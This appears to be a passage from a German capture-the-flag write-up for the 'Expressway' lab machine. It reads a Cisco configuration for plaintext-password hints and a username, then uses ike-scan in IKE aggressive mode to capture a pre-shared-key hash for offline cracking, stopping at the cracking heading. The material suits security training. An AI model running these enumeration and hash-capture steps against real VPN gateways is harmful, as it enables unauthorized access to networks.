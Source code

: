 ```text
version 12.3
no service pad
service timestamps debug datetime msec
service timestamps log datetime msec
no service password-encryption
!
hostname expressway
!
enable password *****
!
username ike password *****
...
```

- `no service password-encryption` bedeutet häufig lesbare Passwörter in Konfigurationsdateien — wertvoll für weitere Enumeration.
- `username ike` legt einen Benutzer `ike` nahe — nützlich für spätere Authentifizierungsversuche.

> 🔎 Hinweis: Bei Cisco-Konfigurationen können Passwörter in verschiedenen Formen (enable secret, enable password, line vty, username secret) vorkommen. Prüfe, ob `enable password` oder `username ... password` tatsächlich plaintext ist.

---

# IKE / IPsec Enumeration

Ziel: aggressive Mode Informationen extrahieren, ID und PSK-hash vorbereiten.

## Aggressive Mode Handshake
```bash
# Grundscan (Aggressive Mode)
sudo ike-scan -A 10.10.11.87
```

Beispielausgabe enthält u. a.:
```
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=... (XAUTH)
```

## PSK-Handshake speichern / vollständiger Aggressive Mode
```bash
# Aggressive Mode mit Ausgabe der Hash-Parameter
sudo ike-scan -M -A -P ike.psk 10.10.11.87
```

> 💡 Hinweis: `-M` erzeugt Materialien (z. B. `ike.psk`) die zum Offline-Cracking genutzt werden können.

---

## PSK Extraktion & Cracking
